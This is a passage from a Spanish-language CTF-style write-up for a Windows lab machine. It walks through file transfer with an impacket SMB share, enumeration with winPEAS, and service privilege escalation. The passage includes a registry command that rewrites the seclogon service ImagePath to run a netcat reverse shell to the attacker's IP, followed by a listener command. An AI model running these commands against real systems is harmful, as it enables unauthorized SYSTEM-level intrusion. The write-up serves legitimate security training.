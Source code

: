 Como no tenemos posibilidades de escalar privilegios con un seImpersonatePrivilege por ejemplo, vamos a tener que enumerar el systema

```bash
cd C:\Windows\Temp
mkdir privesc
```

Descargamos el [**Winpeas.exe**](https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).
Cancelamos el recurso smb y creamos un nuevo para transferir el fichero.

```bash
mv /home/s4vitar/Descargas/winPEASx64.exe ./winpeas.exe
impacket-smbserver smbFolderr $(pwd) -smb2support -username s4vitar -password s4vitar123
```

y lo transferimos a la maquina victima

```bash
net use y: \\10.10.14.15\smbFolderr /user:s4vitar s4vitar123
copy y:\winpeas.exe winpeas.exe
dir
winpeas.exe
```

El winpeas.exe nos reporta que el usuario Hector tiene fullControl sobre bastante servicios, uno de ellos es el seclogon.

```bash
{r, echo = FALSE, fig.cap="Hector service fullControl", out.width="90%"}
    knitr::include_graphics("images/Control-Hector-services-fullControl.png")
```

![Cotrol-Hector-services-fullCotrol](/assets/images/Control-Hector-services-fullControl.png)

```bash
reg query "HKLM\system\currentcontrolset\services\seclogon"
```

```{r, echo = FALSE, fig.cap="service seclogon reg-expand-sz", out.width="90%"}
    knitr::include_graphics("images/Control-reg_expand_sz.png")
```

```bash
![Cotrol-re_exad_sz](/assets/images/Control-reg_expand_sz.png) 
reg add "HKLM\system\currentcontrolset\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 443" /f
```

Ya podemos comprobar con el commando

```bash
 reg query "HKLM\system\currentcontrolset\services\seclogon" 
```

 que el ImagePath a sido cambiado.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

